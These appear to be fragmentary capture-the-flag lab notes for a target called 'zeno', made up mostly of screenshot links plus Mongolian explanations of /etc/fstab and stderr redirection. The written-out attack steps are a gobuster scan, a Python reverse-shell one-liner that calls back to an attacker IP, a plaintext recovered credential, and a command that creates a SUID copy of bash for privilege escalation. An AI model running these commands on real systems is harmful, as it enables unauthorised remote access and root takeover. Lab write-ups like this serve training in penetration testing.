# zeno  10.201.52.14 


gobuster dir -u http://10.201.52.14:12340 -w /usr/share/wordlists/dirbuster/directory-st-2.3-medium.txt -t 100                         








python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.21.166",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'



username=zeno,password=FrobjoodAdkoonceanJa

/etc/fstab файл Linux-д filesystem table буюу файлын системийн холболтын мэдээллийг агуулдаг. Энэ файлыг систем boot хийхдээ ашигладаг, ямар диск, partition-ууд хаана mount хийхийг зааж өгдөг. Дараах үндсэн мэдээллүүд байдаг:









/bin/bash -c 'cp /bin/bash /mnt/secret-share/bash;chmod u+s /mnt/secret-share/bash'



2>/dev/null гэдэг нь Unix/Linux shell-д стандарт алдааны гарал (stderr)-ыг орлуулах буюу санд хаях (discard) зориулалттай redirect команд юм.

Суурь ойлголтууд

Файлын дескриптор (file descriptor):

0 = stdin (оролт)

1 = stdout (стандарт гаралт)

2 = stderr (стандарт алдаа)

/dev/null — “хар нүх” шиг файл: түүн рүү бичсэн бүх зүйл алга болдог (discard).

2>/dev/null юу хийдэг вэ?

2> — 2 (stderr)-г redirect хийж байна гэдэг.

/dev/null руу чиглүүлснээр алдааны мессежүүдийг харуулалгүйгээр устгана.





